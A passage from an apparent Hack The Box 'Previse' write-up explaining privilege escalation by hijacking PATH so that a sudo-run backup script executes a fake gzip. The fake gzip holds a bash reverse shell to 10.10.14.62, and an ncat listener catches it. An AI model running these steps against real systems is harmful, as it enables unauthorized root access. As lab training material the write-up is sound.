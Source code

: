 ## Privilage Escalation

Running `sudo -l` reveals that the user can run a bash script as root:<br>
![Bash script as root](/assets/htb/previse/bash_as_root.png)

The file `/opt/scripts/access_backup.sh` uses a relative path and not the full path.<br>
This makes it vulnerable to "path injection".

### Path Injection
1. Create a file named gzip in `/tmp` containing a reverse bash shell, with permissions of 777.<br>
`cd /tmp`<br>
`echo "bash -i >& /dev/tcp/10.10.14.62/1886 0>&1" > gzip`<br>
`chmod 777 gzip`<br>
3. Configure the environment variable \$PATH to the current directory.<br>
`export PATH=/tmp:$PATH`
4. Start a netcat listner on attacker machine.<br>
`ncat -lvnp 1886`
5. Execute `/opt/scripts/access_backup.sh` as sudo.<br>
`sudo /opt/scripts/access_backup.sh`

![Shell as root](/assets/htb/previse/shell_root.png)

# Pwned confirmation